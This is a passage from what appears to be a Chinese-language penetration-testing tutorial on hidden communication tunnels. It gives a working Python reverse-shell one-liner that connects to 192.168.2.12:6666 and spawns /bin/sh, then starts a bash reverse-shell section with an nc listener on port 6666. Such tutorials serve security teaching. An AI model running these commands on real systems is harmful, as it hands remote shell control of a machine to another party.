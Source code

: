 在客户端执行以下python脚本，反弹shell：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.12",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](img/隐藏通信隧道基础知识/42.png)

（11）bash反弹shell

服务端监听本地6666端口：

```
nc -lvp 6666
```

![](img/隐藏通信隧道基础知识/43.png)
